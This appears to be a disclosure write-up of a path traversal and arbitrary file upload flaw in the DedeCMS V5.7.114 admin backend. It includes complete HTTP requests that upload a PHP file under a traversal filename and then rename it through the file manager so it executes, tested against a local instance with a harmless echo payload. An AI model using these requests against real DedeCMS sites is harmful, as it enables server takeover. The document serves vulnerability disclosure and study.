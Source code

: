 # Dedecms Path traversal+arbitrary file upload(other enter)

​	The zip compression file upload function of the Dreamweaver backend software manager has vulnerabilities such as path traversal and arbitrary file upload

![image-20240708130926507](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitTwo.assets/image-20240708130926507.png)

​	E: \ seebug \ php study_p is the root directory of my current web integration environment deployment. The current project is deployed in the 127.0.0.1-9600 folder under the WWW path.This time I chose E:\seebug\phpstudy_pro\WWW\127.0.0.1_9600\uploads\soft as the destination path for file upload, because PHP scripts can be parsed in this fileWS

​	visit http://127.0.0.1:9600/dede/ And log in to the backend of dedecms to create a new atlas list http://127.0.0.1:9600/dede/album_add.php The interface is shown below

![image-20240712135020653](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitTwo.assets/image-20240712135020653.png)	The vulnerability mainly appears at the compressed file upload location

![image-20240712135159882](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitTwo.assets/image-20240712135159882.png)

```http
POST /include/dialog/select_soft_post.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 733
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGneeoYoNcoA3cyfK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9600/include/dialog/select_soft.php?f=form1.zipfile
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9fvqmoiniui5peunoom189bb23; _csrf_name_2f6ef1b1=251b7a78446c8135eb4f76930f45203f; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=dc1e3af496636f6e; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; DedeLoginTime=1720410513; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=51a7f7470e41e0c9
Connection: close

------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="activepath"

/uploads/soft
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="f"

form1.zipfile
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="job"

upload
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="uploadfile"; filename="try.zip"
Content-Type: application/x-zip-compressed

<?php echo 123;?>
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="newname"

..\/inde1x.Php
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="sb1"

确定
------WebKitFormBoundaryGneeoYoNcoA3cyfK--

```

​	Select_Soft_post.chp did not perform sufficient filtering on the newname parameter, so it is possible to bypass the file suffix blacklist by modifying the value of newname to a file name with the suffix 'php', in conjunction with the previous two path traversal vulnerabilities, to achieve arbitrary file upload vulnerabilities

![image-20240708123702680](Ehttps://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708123702680.png)

![image-20240708132915068](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708132915068.png)

​	The uploaded files may not be able to run directly, and there may be a possibility that the uploaded files cannot be parsed, because by default, the Apache environment combined with the PHP environment can only parse `. php ` files, and configuration files such as `. htaccess ` can be uploaded.

![image-20240708133005172](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708133005172.png)

​	Here, you can also use the built-in file management system in the 'dedecms' backend to rename files and enable them to parse and run normally.

```http
POST /dede/file_manage_control.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 139
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:9600/dede/file_manage_view.php?fmdo=rename&filename=inde1x.Php&activepath=%2Fuploads
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; DedeLoginTime=1720410513; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=51a7f7470e41e0c9; _csrf_name_2f6ef1b1=267c4d98da681002ab955b10f8e0e3c3; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=1d4b8a59aa88baa3; ENV_GOBACK_URL=%2Fdede%2Fmedia_main.php%3Fdopost%3Dfilemanager
Connection: close

fmdo=rename&activepath=%2Fuploads%2Fsoft&filename=inde1x.Php&oldfilename=inde1x.Php&newfilename=index1.php&imageField1.x=31&imageField1.y=6
```

​	Here, we will attempt to retrieve the 'index1x.Php' from the '/uploads/soft' path Rename the file to 'index1.php'`

![image-20240708133049094](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitTwo.assets/image-20240708133049094.png)

![image-20240708133101827](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708133101827.png)

​	Accessing the file again successfully parsed and ran the 'PHP' file

![image-20240708133140911](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708133140911.png)